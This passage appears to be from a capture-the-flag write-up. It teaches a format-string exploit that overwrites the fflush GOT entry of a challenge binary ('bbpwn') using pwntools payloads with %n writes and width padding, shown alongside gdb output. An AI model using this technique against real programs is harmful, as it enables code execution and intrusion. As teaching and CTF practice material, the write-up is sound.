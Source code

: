Let's begin to simulate changing the value at the `fflush` entry in the `got` table. We want to overwrite the value, one byte at a time, until we get the desired value. Consider the following payload:

```python
addrs = p32(0x0804a028) + p32(0x0804a029) + p32(0x0804a02b)
formats = b'%10$n%11$n%12$n'
payload = addrs + formats
```

This means that we're going to write the number of bytes thus far to the address `0x0804a028`, `0x0804a029`, and `0x0804a02b`. If we run `gdb` and stop execution right after the `printf`, we can see what the values are:

```python
p = process('./bbpwn')
gdb.attach(p, gdbscript='b *(main+184)')
```

Checking the addresses at `fflush`:

```nasm
gef➤  x/2wx 0x0804a028
0x804a028 <fflush@got.plt>:	0x52005252	0xf7000000
```

We see that the current value is `0x52` at the lowest byte. Remember that we can only _add_ to the value, meaning to get `0x0b` at that byte, we need to reach `0x10b`. This takes `0x10b-0x52=185` bytes. Therefore, we can append `%185x` into our payload so that many bytes are written first.

{% hint style="warning" %}
#### _Why does this work?_

Note the difference in the format specifier. We are writing `%185x` and **not** `%185$x`. Rather than writing the value of the 185th argument, we are writing the argument provided as a 185-byte value. As a proof-of-concept, consider the following code:

```c
#include <stdio.h>

int main(void)
{
    int bytes = 2;
    printf("%10x", bytes);
}
```
{% endhint %}

This code is going to output 9 spaces then the number 2. Changing the print statement to `printf("%010x", bytes);` prints out `0000000002`.

Let's add this format string to the start of our payload and re-analyze.

```python
addrs = p32(0x0804a028) + p32(0x0804a029) + p32(0x0804a02b)
formats = b'%185x%10$n%11$n%12$n'
payload = addrs + formats
```

